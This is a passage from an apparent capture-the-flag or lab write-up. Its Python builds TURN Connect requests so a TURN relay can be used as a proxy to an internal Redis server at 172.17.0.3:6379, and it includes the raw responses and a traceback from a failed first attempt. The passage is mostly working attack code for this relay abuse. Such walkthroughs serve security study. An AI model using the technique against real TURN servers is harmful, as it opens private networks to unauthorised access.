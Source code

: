 We then need to send the request and process the response:

```python
# Connect Request
cs.sendall(build_connect_request())
data = cs.recv(1024)

print('Raw Connect Request Response', data)
connection_id = parse_response(data)
print('\n\n')
```

If done properly, we should get a success response with a connection id that we need for the following request.  Lets see what happens.

```
generated txn id b'27706f2772e2fc069fb41a04'
Raw Connect Request Response b'\x01\x1a\x00\x1c!\x12\xa4B\'po\'r\xe2\xfc\x06\x9f\xb4\x1a\x04\x00\t\x00\x10\x00\x00\x04\x03Forbidden IP\x80"\x00\x04None'
Message Type b'\x01\x1a'
Length 28
Cookie b'2112a442'
txn ID b'27706f2772e2fc069fb41a04'
attribute type b'0009'
length 16
value b'00000403466f7262696464656e204950'
attribute type SOFTWARE
value None

Traceback (most recent call last):
  File "./redis-proxy.py", line 229, in <module>
    ds.sendall(build_connectbind_request(connection_id))
  File "./redis-proxy.py", line 134, in build_connectbind_request
    attributes += connection_id
TypeError: can't concat NoneType to bytes
```

Uh-oh, looking at the raw request output, and checking the packet in wireshark, we see that the IP address is forbidden, and we didn't get our
connection id that we needed.  Looks like we'll need to try something else.

#### Connect Request (Second Attempt)

So we know the docker subnet from the relay address in the allocation request.  Perhaps we can use that ip instead in order to access the
redis server.  Lets modify our build function and give it a go

```python
def build_connect_request():

  attributes = XOR_PEER_ADDRESS
  attributes += b'\x00\x08' #length
  attributes += b'\x00\x01' #ipv4 = 0x01
  attributes += b'\x39\xf9' # 6379 -> 0x18eb ^ 0x2112 -> 0x39f9
  attributes += b'\x8d\x03\xa4\x41' # 172.17.0.3 -> 0xAC110003 ^ 0x2112A442 -> 0x8d03a441
  attr_len = len(attributes)
  attr_len = attr_len.to_bytes(2, 'big')

  header = CONNECT_REQUEST
  header += attr_len
  header += COOKIE
  txnId = gen_tran_id()
  header += txnId
  print('generated txn id', binascii.hexlify(txnId))

  return header + attributes
```
